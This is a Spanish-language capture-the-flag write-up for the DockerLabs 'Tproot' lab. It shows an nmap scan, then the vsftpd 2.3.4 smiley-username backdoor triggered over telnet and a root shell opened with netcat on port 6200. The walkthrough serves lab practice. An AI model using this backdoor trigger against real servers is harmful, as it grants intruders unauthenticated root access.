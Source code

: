 ```yaml
---
title: Tproot - DockerLabs
categories: [ Linux ]
tags: [DockerLabs]
---
```


<img src="/assets/img/DLabs/tproot/tproot.png" alt="Captura de pantalla de la máquina TProot en DockerLabs">

Hoy explotaremos la máquina *Tproot* de [DockerLabs](https://dockerlabs.es/), de dificultad Muy Fácil. Nos aprovecharemos de una vulnerabilidad en *vsftpd* en una versión sin parche.

## Desplegamos la máquina

```bash
➤ sudo bash auto_deploy.sh tproot.tar
[sudo] contraseña para nmc:     

	                    ##        .         
	              ## ## ##       ==         
	           ## ## ## ##      ===         
	       /""""""""""""""""\___/ ===       
	  ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
	       \______ o          __/           
	         \    \        __/            
	          \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  
                                         
				     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



## Escaneo NMAP

Antes que nada, deberemos hacer un escaneo de puertos con **nmap** para encontrar los puertos abiertos y qué servicios corren en ellos.

```bash
➤ nmap -sV -p- --min-rate=100 -T4 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-17 15:11 CST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```



Nos percatamos de que está abierto el puerto **21** con el servicio **FTP**, que utiliza la versión *vsftpd 2.3.4.* Esta versión de vsftpd tiene una vulnerabilidad tipo backdoor que se activa cuando se introducen usuarios con ":)". Al hacerlo, se abre una *shell* en el puerto **6200**, permitiendo acceso remoto al sistema.

## Conexión mediante Telnet y Netcat

Nos conectamos con Telnet al puerto 21 y aprovechamos la vulnerabilidad para ingresar sin necesidad de autenticación, usando los comandos:
<mark>USER test:)</mark>
<mark>PASS test</mark>

```bash
➤ telnet 172.17.0.2 21
Trying 172.17.0.2...
Connected to 172.17.0.2.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
USER test:)
331 Please specify the password.
PASS test
```



Ponemos a escuchar netcat en el puerto 6200 e intentamos ejecutar el comando *whoami*.

```bash
➤ nc 172.17.0.2 6200
whoami
root
```



## Acceso ROOT obtenido

¡Máquina comprometida! Te deseo un feliz hackeo.
